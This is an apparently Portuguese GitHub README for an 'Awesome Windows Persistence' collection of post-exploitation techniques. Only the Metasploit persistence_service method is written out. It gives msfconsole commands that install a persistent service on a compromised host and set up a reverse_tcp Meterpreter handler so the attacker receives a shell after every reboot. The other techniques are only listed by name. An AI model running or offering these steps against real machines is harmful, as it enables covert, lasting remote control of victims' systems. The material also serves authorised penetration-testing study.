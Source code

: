 # [Awesome Windows Persistence](https://github.com/Stuuxx/awesome-persistence)

**Técnicas e táticas para a manutenção de persistência em um alvo explorado.**

Estarei constantemente atualizando este repositório com novas técnicas!

## Sumário
Técnicas e Táticas
 - Persistence Service
 - Persistence Registry
 - Netcat
 - RDP
 - Schtasks
 - Schtasks-Log Events
 - WMIC
 - Wmi-Persistence
 - SharPersist

## Técnicas e Táticas
###Persistence Service

Já com o alvo explorado e com uma shell meterpreter:
- Colocar a sessão em background;
- Utilizar e configurar o módulo exploit/windows/local/persistence_service do metasploit;
 
Este módulo irá gerar e fazer upload de um executável para o host explorado, em seguida irá torná-lo um serviço persistente. Ele criará um novo serviço que iniciará a carga útil sempre que o serviço estiver em execução.
**É necessário privilégio de administrador ou de sistema!**

```bash
background
use exploit/windows/local/persistence_service
set SESSION 1
exploit
```
![persistence-service](https://user-images.githubusercontent.com/67444297/198635234-f2d8beb0-a0e3-416f-a1b4-ad49d98448ed.jpg)

- Abrir uma nova aba no terminal;
- Utilizar o multi/handler, configurar-lo e colocar para ouvir;

```bash
msfconsole -q
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 4444
ip a s
set LHOST SEUIP
exploit
```
![persistence-service2](https://user-images.githubusercontent.com/67444297/198635249-b51498b3-7cc6-4cc5-9849-4b143b71e1de.jpg)

**Note que logo que você colocar para ouvir o multi/handler, já receberá uma nova shell, isso se da ao fato de que essa técnica é voltada a um serviço persistente, ou seja, está executando o payload diversas vezes enquanto está vivo.**

Para prova de conceito, iremos dar um reboot na máquina explorada e aguardar a shell em nosso multi/handler.
![persistence-service3](https://user-images.githubusercontent.com/67444297/198635260-54025d20-366e-4e76-a31e-1731e7da1702.jpg)



## Ficou com alguma dúvida?

Siga-me nas redes sociais para acompanhar meus conteúdos relacionados a Cyber Security e Offensive Hacking ou para tirar dúvidas relacionadas aos artigos!
 - LinkedIn : [Eduardo Maragno](https://www.facebook.com/HackwithGithub)
 - Bugcrowd : [@Stux](https://bugcrowd.com/StuxRs)
 - Medium : [@Stux]()
 - Twitter : [@StuxRs](https://twitter.com/StuxRs)

